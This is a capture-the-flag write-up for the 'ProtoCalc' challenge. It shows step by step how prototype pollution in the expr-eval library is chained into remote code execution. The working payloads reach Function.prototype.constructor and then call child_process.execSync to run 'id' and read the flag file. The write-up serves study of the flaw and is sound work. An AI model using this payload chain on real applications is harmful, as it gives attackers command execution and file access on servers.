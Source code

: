 ## ProtoCalc

From the challenge name and description, we can figure out that we are faced with a prototype pollution challenge. The challenge description mentions that `expr-eval` is being used. A quick google search reveals this:

![1.png](./screenshots/1.png)

From the GitHub page of `expr-eval`, we go to the issues tab and search for closed issues for Prototype Pollution, to see if there were any fixes:

![2.png](./screenshots/2.png)

This leads us to the fix: https://github.com/silentmatt/expr-eval/pull/252

The post for this fix also contains a PoC, which may be useful for us:

![3.png](./screenshots/3.png)

The PoC payload is:
`Object=constructor;a=Object.fromEntries([["a","polluted"]]);Object.assign(__proto__, a)`

![4.png](./screenshots/4.png)

The PoC proves that we are able to use `Object.assign` to manipulate the prototype chain.

However, we need a method to obtain RCE to read the flag. Let's expand upon this idea.

We can create a variable for `constructor`. We will call this variable `c`.
![5.png](./screenshots/5.png)

Our aim is to pollute a function prototype's constructor with a malicious JavaScript payload.

When we create a new function, it will inherit the properties of the Function prototype, and execute the payload that we define.

I will use the built in function `toString` for this purpose. We can obtain `Function.prototype` with `fp=c.getPrototypeOf(toString)`.

Check the documentation of the methods `getPrototypeOf` and `getOwnPropertyDescriptor`.
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getPrototypeOf
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getOwnPropertyDescriptor

We then construct this payload:
`c=constructor; fp=c.getPrototypeOf(toString); fpcd=c.getOwnPropertyDescriptor(fp, "constructor"); fpcd;`
This payload allows us to get the property descriptor of the `constructor` property on the Function prototype.
![6.png](./screenshots/6.png)

If we pollute the `value` field, we can create our own function that executes malicious JavaScript code.

At the moment, we cannot access the `value` field via the variable `c`:
![7.png](./screenshots/7.png)

We can use the `assign` method to assign the property descriptor `fpcd` to the `__proto__` property of the global `constructor` function.
Check the documentation of the `assign` method.
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/assign

After executing the code `c.assign(__proto__, fpcd);`, we will pollute `value` to `Function.prototype.constructor`, and we should be able to access `value` via `c`.

Full payload: `c=constructor; fp=c.getPrototypeOf(toString); fpcd=c.getOwnPropertyDescriptor(fp, "constructor"); c.assign(__proto__, fpcd); c.value;`
![8.png](./screenshots/8.png)

Now, we will try executing arbitrary JavaScript code:
`c=constructor; fp=c.getPrototypeOf(toString); fpcd=c.getOwnPropertyDescriptor(fp, "constructor"); c.assign(__proto__, fpcd); f=c.value("return 'polluted :)'"); f();`
![9.png](./screenshots/9.png)

Great, we are able to execute arbitrary JavaScript on the server. But we are not done yet. We still need RCE.
For that, we need to bypass the sandbox restrictions. This blog post gives us a payload that we can use:
https://medium.com/faraday/bypassing-a-restrictive-js-sandbox-d2d13e02e542

The payload is: `global.process.mainModule.constructor._load("child_process").execSync("id").toString()`

Integrating this into our payload, our final payload looks like this:
```node
c=constructor;
fp=c.getPrototypeOf(toString);
fpcd=c.getOwnPropertyDescriptor(fp, "constructor");
c.assign(__proto__, fpcd);
f=c.value("return global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString()");
f();
```

Which gives us RCE:
![10.png](./screenshots/10.png)

We can now read the flag.
```node
c=constructor;
fp=c.getPrototypeOf(toString);
fpcd=c.getOwnPropertyDescriptor(fp, "constructor");
c.assign(__proto__, fpcd);
f=c.value("return global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat /flag/flag.txt\").toString()");
f();
```
![11.png](./screenshots/11.png)
